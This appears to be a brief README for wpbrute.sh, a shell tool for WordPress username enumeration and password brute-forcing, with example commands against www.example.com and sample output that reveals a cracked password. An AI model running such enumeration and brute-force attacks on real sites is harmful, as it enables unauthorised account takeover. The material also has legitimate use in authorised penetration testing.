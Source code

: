 WPBRUTE
=======

Wordpress user enumeration and password bruteforce.

#User Enumeration:

<code>$ ./wpbrute.sh --url=www.example.com</code>
<pre>
[+] Username or nickname enumeration
admin
testuser
</pre>

#Password Bruteforce:

<code>$ ./wpbrute.sh --url=www.example.com --user=admin --wordlist=wordlist.txt</code>
<pre>
[+] Bruteforcing user [admin]
123456
test123
123test123
The password is: 123test123
</pre>
